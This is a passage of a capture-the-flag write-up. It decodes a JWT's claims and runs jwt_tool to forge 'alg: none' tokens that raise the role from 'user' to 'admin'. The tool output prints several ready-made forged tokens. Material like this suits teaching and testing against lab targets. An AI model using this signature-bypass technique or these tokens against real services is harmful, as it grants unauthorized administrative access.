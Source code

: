 ```console

Token payload values:
[+] username = "test"
[+] role = "user"
[+] createdAt = 1681298878

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------
```

We can see that the role is "user", we probably want to change it to "admin". However, the token is signed so we can't just change the value without modifying the signature to match.
The signing algorithm is "HS256" (HMAC with SHA-256), which means that there's some keyphrase that we need to know in order to resign the token. 
However, there's a known JWT attack where the attacker changes the algorithm to "none" and therefore doesn't need to resign the token. If the server is vulnerable, it will accept
a token signed with no algorithm at all.

```console
┌──(user@kali)-[/media/sf_CTFs/basmach/Thunderstorm_of_hail_and_fire]
└─$ python3 ~/utils/web/jwt_tool/jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoidXNlciIsImNyZWF0ZWRBdCI6MTY4MTI5ODg3OH0.Uyo8lLg_UYGRWmfDFQpPivz3qSO-tJI0UXrzD35fSkI -X a -I -pc role -pv admin

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi

Original JWT:

jwttool_a901d3da75eeac8790b75d80c075d871 - EXPLOIT: "alg":"none" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjE2ODEyOTg4Nzh9.
jwttool_4f0a93985bcda3eef2b2d64342da9c4c - EXPLOIT: "alg":"None" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjE2ODEyOTg4Nzh9.
jwttool_f514a58b8654c6e971a6a321405c7887 - EXPLOIT: "alg":"NONE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0.eyJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjE2ODEyOTg4Nzh9.
jwttool_b8a274d3c19b87b8bdf1cd87ee630598 - EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJuT25FIn0.eyJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoiYWRtaW4iLCJjcmVhdGVkQXQiOjE2ODEyOTg4Nzh9.
```
